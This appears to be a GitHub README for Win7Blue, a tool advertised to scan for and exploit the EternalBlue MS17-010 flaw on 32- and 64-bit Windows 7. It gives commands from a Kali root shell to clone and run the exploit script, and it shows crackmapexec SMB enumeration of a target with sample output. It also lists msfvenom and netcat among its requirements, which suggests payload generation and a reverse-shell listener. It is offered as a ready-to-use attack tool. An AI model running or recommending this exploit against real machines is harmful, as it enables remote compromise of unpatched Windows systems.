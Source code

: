# Win7Blue

Scan/Exploit - EternalBlue MS17-010 - Windows 7 32/64 Bits

![](/screenshots/1.png)

---

- <kbd>Scan</kbd>

![](/screenshots/1.png)

- <kbd>Exploit</kbd>

![](/screenshots/2.png)

- <kbd>Use</kbd>

```cmd
root@kali:~# git clone https://github.com/d4t4s3c/Win7Blue.git && cd Win7Blue && chmod +x Win7Blue.sh
root@kali:~# ./Win7BLue.sh
```

- <kbd>Enum 32/64 bits</kbd>

```cmd
root@kali:~# crackmapexec smb <target>
SMB   192.168.1.XXX   445   TESTING   [*] Windows 7 Professional 7600 x64 (name:TESTING) (domain:TESTING) (signing:False) (SMBv1:True)
```

- <kbd>Tested On:</kbd>

  * Kali
  * Parrot
  
- <kbd>Requirements:</kbd>

   * Nmap
   * Python
   * Python3
   * Msfvenom
   * Impacket
   * Netcat/Ncat

---

